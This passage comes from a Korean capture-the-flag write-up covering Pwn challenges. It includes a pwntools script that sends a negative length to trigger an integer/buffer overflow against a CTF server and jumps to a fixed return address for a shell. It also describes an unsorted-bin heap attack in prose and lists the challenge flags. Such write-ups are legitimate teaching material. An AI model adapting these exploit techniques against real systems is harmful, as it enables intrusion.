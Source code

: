 

__플래그 : flag{alyac_static_key_bugbounty}__

주창이형 기분이 많이 좋은 것 같다.



## Pwn

### First Step (70)

A 쭉 박아서 버퍼 넘기면 플래그 준다.



__플래그 : flag{b0f_bof_bof_ffff_____}__



### NoBoF (100)

입력할 글자수 입력받는데 unsigned int형이어서 음수 박으면 쓰레기값 되서 BOF 가능하다.

```python
from pwn import *

p = remote('c2w2m2.com', 6665)

p.recv()
p.sendline('-9999999999999999999999999999999999')
p.recv()

payload = 'A' * 268 
payload += p32(0x080485b5)

p.sendline(payload)
p.interactive()
```



__플래그 : flag{int=>unsigned_is_danger}__



### babyuba (150)

1. malloc(500)
2. free()
3. Edit
4. check

와 같이 메뉴가 구성되어 있는데, check시 bss에 0으로 초기화된 전역 변수의 값을 바꾸면 쉘을 띄워준다.

malloc size가 500이므로 small bin이 할당되는데 Edit시 해당 index의 chunk가 free 상태인지 검사하지 않고 

​	값을 쓸 수 있게 해줘 fd와 bk가 조작 가능하다. 

따라서 unsorted bin attack으로 값을 main_arena+88로 바꿔주면 된다.
